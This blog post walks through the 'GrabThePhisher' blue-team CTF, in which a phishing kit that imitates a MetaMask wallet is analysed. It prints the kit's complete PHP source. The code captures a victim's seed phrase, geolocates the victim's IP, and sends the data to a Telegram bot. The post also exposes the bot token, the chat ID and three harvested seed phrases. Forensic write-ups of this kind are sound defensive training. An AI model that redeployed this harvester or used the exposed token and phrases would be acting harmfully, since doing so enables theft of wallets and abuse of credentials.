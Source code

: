 Hi, recently I have finished challenge [grabthephisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on cyberdefenders.org. Let's check how to solve those puzzles.

# Solution

### 1 Which wallet is used for asking the seed phrase?

WWW display 3 wallets:

[![image-1658854441638.png](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)

I checked structure of web site directory. Only one directory contained suspicious PHP script:

```
c75-GrabThePhisher\pankewk\metamask\metamask.php
```

### 2 What is the file name that has the code for the phishing kit?

Suspicious file contains script written in PHP to gather intelligence and data from user.

### 3 In which language was the kit written?

Script is written in PHP language.

### 4 <span class="fw-bold">What service does the kit use to retrieve the victim's machine information?</span>

<span class="fw-bold">Code of the script:</span>

```php
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y"); //aaja


/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */


    $message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> " . $_POST["data"] . "
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";


sendTel($message);  
	
    function sendTel($message){
		$id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
		file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	

    }
    
    
    ?>
    
```

Line 3 shows the phisher is using Sypex Geo service to gather intelligence

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

### 5 How many seed phrases were already collected?

Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.

```php
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

File log.txt contains 3 entries:

```php
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

### 6 <span class="fw-bold">Write down the seed phrase of the most recent phishing incident?</span>

<span class="fw-bold">Line 36 shows that script is appending data in log file - FILE\_APPEND. It means that, the last written value will be in last position.</span>

### <span class="fw-bold">7 Which medium had been used for credential dumping?</span>

<span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>

```php
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
```

### 8 <span class="fw-bold">What is the token for the channel?</span>  


<span class="fw-bold">Line 33 contains variable named $token with value:</span>

```php
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

### 9 What is the chat ID of the phisher's channel?

Line 32 contains variable named $id with value:

```php
		$id = "5442785564"; 
```

### 10 <span class="fw-bold">What are the allies of the phish kit developer?</span>

<span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

### 11 What is the full name of the Phish Actor?

To answer this I had to get familiar with the telegram bot API. Full description of API is here: [https://core.telegram.org/bots/api#available-methods](https://core.telegram.org/bots/api#available-methods)

I used API method getChat.

All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:

```html
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

Response from Telegram API:

```json
{
	"ok": true,
	"result": {
		"id": 5442785564,
		"first_name": "Marcus",
		"last_name": "Aurelius",
		"username": "pumpkinboii",
		"type": "private",
		"photo": {
			"small_file_id": "AQADBQADCbQxG1rVIVYACAIAAxxRakQBAAM7fQl4M-jTyikE",
			"small_file_unique_id": "AQADCbQxG1rVIVYAAQ",
			"big_file_id": "AQADBQADCbQxG1rVIVYACAMAAxxRakQBAAM7fQl4M-jTyikE",
			"big_file_unique_id": "AQADCbQxG1rVIVYB"
		}
	}
}
```

Answer is concatenation of first\_name and last\_name from lines 5 and 6 in the response.

### 12 <span class="fw-bold">What is the username of the Phish Actor?</span>

<span class="fw-bold">Username is present in line 7 of request response.</span>

### END

It was very fun challenge, if you like my solutions read other posts on the blog.

Thank you for reading, have a nice day !
